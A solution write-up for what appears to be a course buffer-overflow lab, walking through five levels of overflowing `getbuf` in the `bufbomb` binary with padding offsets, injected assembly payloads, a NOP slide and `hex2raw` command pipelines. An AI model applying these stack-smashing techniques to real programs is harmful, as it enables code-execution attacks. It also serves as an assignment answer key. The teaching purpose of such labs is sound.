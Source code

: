 # Solution

Each level of the bomb is defused by passing specific data into a buffer
to cause an overflow.

The exploit files used for level `i` are stored at
`exploits/exploit_i.txt`. They have to be converted to raw bytes using
some tool like `hex2raw` (provided with the handout) before being
passed to the bomb.
Note that these exploits are specific to the user id `caleb`.
You can use the `exploit` program as demonstrated below to generate the
binary exploit strings for an arbitrary user id.

Descriptions of the constructions of the exploits follow:

## Level 0

In order to jump to `smoke`, we need to place the address of `smoke` on
the stack where `ret` looks for a return address.
Disassembling `getbuf`, we see that the buffer is located at `ebp-0x28`.
The old `ebp` was stored on the stack at the start of `getbuf`, so the
return address is located at `ebp+0x8`. In total, we need
`0x28+0x8-0x4=44` bytes of padding before the address of `smoke`.

Perform this exploit from the `handout` directory with
```
cat ../solution/exploits/exploit_0.txt | ./hex2raw | ./bufbomb -u caleb

OR

./makecookie <user id> | ../solution/exploits/exploit bufbomb 0 | ./bufbomb -u <user id>
```

## Level 1

We can use the overflow to jump to `fizz` in an analogous manner to
jumping to `smoke`. If `call fizz` had been executed, the argument
and a return address would have been push onto the stack first, in that
order. These would occupy the positions on the stack just below our
faked `fizz` address. We don't care about the return address from
`fizz`, so we put 4 bytes of padding and then whatever value we want for
the argument, in this case, the cookie.

Perform this exploit from the `handout` directory with
```
cat ../solution/exploits/exploit_1.txt | ./hex2raw | ./bufbomb -u caleb

OR

./makecookie <user id> | ../solution/exploits/exploit bufbomb 1 | ./bufbomb -u <user id>
```

## Level 2

Using **GDB** we can determine the address of the start of the buffer
and use that in place of `smoke`/`fizz` in the previous examples.
We then replace the padding we had been putting in the buffer with the
binary for the following assembly:
```
mov eax, 0x7356a731
mov ecx, <address of global_value>
mov [ecx], eax
push <address of bang>
ret
```
(the addresses for `global_value` and `bang` are straightforward to
obtain, for example using **GDB**)

Perform this exploit from the `handout` directory with
```
cat ../solution/exploits/exploit_2.txt | ./hex2raw | ./bufbomb -u caleb

OR

./makecookie <user id> | ../solution/exploits/exploit bufbomb 2 | ./bufbomb -u <user id>
```

## Level 3

In this case, we simply want to return the cookie from `getbuf`,
which is as simple as setting `eax` to the cookie in our exploit code,
but we need to ensure that the *canary value* can still be checked.
For this, we must ensure that the stack pointer in `test` is set
correctly after returning from `getbuf`, so that the variable `local` is
accessed appropriately. The bomb is kindly set up so that the stack is
the same each run, so we can simply sample `esp`/`ebp` in **GDB**
and hard-code in the appropriate values.
The payload assembly then looks something like this:
```
mov eax, 0x7356a731
push 0x8048dbe
ret
```

Perform this exploit from the `handout` directory with
```
cat ../solution/exploits/exploit_3.txt | ./hex2raw | ./bufbomb -u caleb

OR

./makecookie <user id> | ../solution/exploits/exploit bufbomb 3 | ./bufbomb -u <user id>
```

## Level 4

This level is more or less the same as level 3.
The difference is there is a range of addresses at which the buffer may
start, as opposed to a single, known address.
This means, on any given run, we don't know
  * what value needs to be restore for the pushed `ebp`
  * what address to jump to
To accommodate this, we sample the buffer starting address several
times, take the maximum, and fill the majority of the buffer with `NOP`
instructions (a `NOP` slide). We also add code to the exploit assembly
to compute the pushed `ebp` value and restore it to the `ebp` register,
like `leave` would in a normal run of the program.
The payload assembly then looks something like this:
```
mov eax, 0x7356a731
lea ebp, [esp+0x28]
push 0x8048e3a
ret
```

Perform this exploit from the `handout` directory with
```
cat ../solution/exploits/exploit_4.txt | ./hex2raw -n 5 | ./bufbomb -u caleb -n

OR

./makecookie <user id> | ../solution/exploits/exploit bufbomb 4 | ./bufbomb -u <user id> -n
```
